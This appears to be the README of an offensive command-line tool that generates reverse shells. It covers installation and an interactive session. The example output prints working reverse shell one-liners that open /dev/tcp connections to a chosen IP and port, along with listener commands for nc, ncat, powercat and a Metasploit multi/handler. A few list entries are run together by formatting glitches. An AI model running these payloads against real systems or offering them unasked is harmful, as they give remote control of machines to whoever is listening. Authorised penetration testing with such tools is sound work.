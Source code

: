 # General Information

A command-line reverse shell generator, 
if you got tired of visiting https://www.revshells.com/ every time you need to pop up a reverse shell,
and you want to have everything in your console.


# Installation

```bash
apt install python3 python3-pip
git clone https://github.com/cyberhexe/reverse-shell-generator
cd reverse-shell-generator
pip3 install -r requirements.txt
```

# Usage

### Printing the script arguments

`python3 revshellgenerator.py -h`

### Running the reverse shell generator

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> help
Documented commands (type help <topic>):
========================================g
get  help  ip  list  port  shell
>> help list
list [ reverse | listeners | shells | msfvenom ]
List the available templates, shells or listener commands.
E.g.: list shells
>> help get
get [ reverse | listeners | shells | msfvenom ] [index]
Generate the actual command with the given options.
The first parameter specifies which type of the command it's going to be.
The [index] parameter specifies which template should be used for generating the command.
E.g.: get reverse 0
Use 'list' command for getting the index.
>>
```

### Setting reverse IP address and port

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>>  
```

Alternatively, you can provide the IP/port as script arguments for not prompting them later:
`python3 revshellgenerator.py --ip 192.168.45.19 --port 4200`

### Listing available reverse shell commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list reverse
0 - Bash -i [linux | mac]
1 - Bash 196 [linux | mac]
2 - Bash read line [linux | mac]
3 - Bash 5 [linux | mac]4 - Bash udp [linux | mac]
5 - nc mkfifo [linux | mac]6 - nc -e [linux | mac]
7 - nc.exe -e [windows]8 - nc -c [linux | mac]
9 - ncat -e [linux | mac]10 - ncat.exe -e [windows]
... truncated ...
>> 
```

*The indexes are used while choosing the command template.*

### Listing available listener commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list listeners
0 - nc
1 - ncat
2 - ncat (TLS)
3 - rlwrap + nc4 - rustcat
5 - rustcat + Command History6 - pwncat
7 - windows ConPty8 - socat
9 - socat (TTY)
10 - powercat
11 - msfconsole
>>
```

### Generating reverse shell commands

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

Alternatively, you can provide the IP/port as script arguments and call the `get reverse` command straightaway
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 4200
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

### Generating listeners commands
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 5050
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get listeners 10
powercat -l -p 5050
>> get listeners 1
ncat -lvnp 5050
>> get listeners 11
msfconsole -q -x "use multi/handler; set payload {payload}; set lhost 192.168.45.19; set lport 5050; exploit"  
```
